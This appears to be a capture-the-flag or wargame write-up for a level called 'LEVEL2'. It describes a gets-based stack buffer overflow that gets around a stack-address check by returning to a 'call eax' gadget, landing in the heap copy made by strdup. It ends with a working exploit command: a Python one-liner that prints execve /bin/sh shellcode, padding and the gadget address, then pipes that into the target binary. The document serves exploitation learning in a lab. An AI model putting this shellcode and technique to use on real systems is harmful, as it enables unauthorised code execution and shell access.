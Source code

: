 # LEVEL2

## EXPLANATIONS

### BINARY BEHAVIOR

- main calls p
- p allocates a buffer on its stack frame
- gets writes stdin on stack buffer
- p checks that address in sEIP is not on stack

### EXPLOIT STRATEGY

- We write our shellcode into buffer + padding to overwrite sEIP by the address of frame_dummy+31(call eax).
  - because strdup is the last function called before the return of p, we still have strdup return (HEAP address in which all stdin buffer has been copied) in EAX
  - `frame_dummy + 31 == call EAX`

### RUN COMMAND

```
python -c "print('\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' + 'A' * 35 + '\x08\x04\x84\xcf'[::-1])" > /tmp/exploit_string
`cat /tmp/exploit_string - | /home/user/level2/level2
```

